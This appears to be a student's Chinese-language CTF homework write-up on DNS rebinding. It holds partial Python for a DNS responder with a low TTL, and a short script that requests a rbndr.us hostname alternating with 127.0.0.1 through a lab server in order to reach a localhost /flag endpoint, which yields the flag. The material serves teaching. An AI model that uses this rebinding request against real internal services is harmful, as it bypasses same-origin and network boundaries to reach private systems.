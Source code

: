 # Web1
3220102732-周伟战
---
## Task1
### Implement a DNS Rebinder
大致思路是攻击者需要自己持有一个域名，然后将这个域名解析指向自己的DNS Server，在该Server上写个解析服务，每次返回不同的解析结果。在此过程中，TTL需要极短。
![P1](https://github.com/Magnus031/CTF2023/blob/main/Web/p1.png?raw=true) 
需要自搭建了一个 DNS Server~~其实自己只能搭建部分根本不完整的DNS Server（甚至不能说的上是DNS Server，只是几个emm可以实现功能的函数罢了）~~，既能做到正常的解析域名的功能，然后设置该DNS Server的对于域名的解析方式，做到在一个很短的ttl中先后两次的域名解析返回结果不同：
直接见代码(在附件中的DNS Rebinder.py)~~学了两三天尽力写了，助教捞捞~~:
### 努力完成第一个request:
```Python
from dns.resolver import Resolver

def resolve_dns(Domain):
    #完成resolve normarlly for common hosts
    resolver = Resolver()
    iP = resolver.query(Domain) 
    for answer in iP:
        print(answer)

domain=input("Please write your domain:")
resolve_dns(domain)
```
这个是能正常的解析域名，并将给定域名的ip地址列表输出
![P2](https://github.com/Magnus031/CTF2023/blob/main/Web/p2.png?raw=true)
以上完成了request1:resolve normarally for common hosts
### emm下面尝试完成（~~真的只是尝试~~）request2:
resolve to different ip address (A records)in different responses for certain hosts emm有点困难;实在是无从下手了emm时间也不太够。

### 完成request3:Low TTL
在给出response的函数中将ttl设为比较小的值
```Python
def response(record,ip,ttl):
    #response 函数是用来作为回应,record为输入的DNS
    r_data = A(ip)
    ttl=60
    #low ttl
    header = DNSHeader(id=record.header.id, bitmap=record.header.bitmap, qr=1)
    #创建新的响应Header
    domain = record.q.qname
    GetA = QTYPE.reverse.get('A') or record.q.qtype
    response = DNSRecord(header, q=record.q, a=RR(domain, GetA, rdata=r_data, ttl=ttl))
    return response
```
response这个函数是用来返回响应值的，作为一个DNS Server中A类回复报文的查询结果。从record请求报文中获取domain，ip则是需要回复的A（Ipv4）类值。
## Task2
利用https://lock.cmpxchg8b.com/rebinder.html这个检测DNS Rebinder的bug
(见Task2.py)
```Python
import requests

DNS="http://10.214.160.13:10011/"
urlpath="7f000001.6729a7ea.rbndr.us:9999/flag"

URL= DNS+urlpath
getresponse=requests.get(URL)
#getresponse接受的是向URL发送的http请求后的结果
if(getresponse.status_code==200):
        print(getresponse.text)
```
这里的urlpath获得是利用了这个网站本身的自带A接口`7f000001`和B接口`6729a7ea`利用了`zhihu.com`获得了IP为`103.41.167.234`
![P4](https://github.com/Magnus031/CTF2023/blob/main/Web/p4.png?raw=true)
这段代码的思路是强行去撞成功的概率，多次尝试，最终破出flag为
<strong>AAA{welcome_t0_http://py3.io}</strong>
![P3](https://github.com/Magnus031/CTF2023/blob/main/Web/p3.png?raw=true)
OK,Task2解决~~求捞捞~~ 
